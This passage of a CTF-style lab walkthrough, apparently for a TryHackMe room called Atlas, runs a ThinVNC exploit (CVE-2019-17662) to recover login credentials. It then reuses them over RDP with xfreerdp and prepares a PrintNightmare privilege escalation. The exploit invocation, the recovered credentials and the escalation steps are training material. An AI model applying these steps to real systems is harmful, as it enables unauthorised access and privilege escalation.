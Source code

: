 <img width="1047" height="291" alt="image" src="https://github.com/user-attachments/assets/d1d5de11-4078-4a8f-a453-518bc42c4d74" />

<br>
<br>
<br>
<p>4.4. Use the credentials found by the script to get past the HTTP Basic Auth presented when trying to access the vulnerable service in your web browser. You should have access to a user desktop!br>
<code>No answer needed</code></p>

```bash
:~/Atlas/CVE-2019-17662# ./CVE-2019-17662.py 10.201.75.19 8080
```

<p>
 
- Username:	Atlas<br>
- Password:	H0ldUpTheHe@vens</p>

<br>
<br>
<br>
<h2>Task 5 . <code>Access</code> . VNC 🠖 RDP</h2>
<br>

<p><em>Answer the question below</em></p>

<br>
<p>5.1. Most people take the easy option when it comes to passwords, which makes password reuse incredibly common. With that in mind, use xfreerdp to connect to the target over RDP.<br>
<code>No answer needed</code></p>


```bash
:~/Atlas/CVE-2019-17662# xfreerdp /v:10.201.75.19 /u:Atlas /p:H0ldUpTheHe@vens /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
```

<img width="1233" height="648" alt="image" src="https://github.com/user-attachments/assets/25c043c5-9209-479f-bc25-e60f39213d5c" />

<br>
<br>
<br>
<h2>Task 6 . <code>Attack</code> . Privilege Escalation</h2>
<br>


<p><em>Answer the questions below</em></p>

<br>
<p>6.1. There are many different implementations of PrintNightmare available. You are advised to use a PowerShell version written by Caleb Stewart and John Hammond.<br>
<code>No answer needed</code></p>

<br>
<p>6.2. Navigate to the /tmp directory of your attacking VM, then clone the repository. Remember that /drive:/tmp,share argument in the xfreerdp command? It's about to come in useful.<br>
<code>No answer needed</code></p>
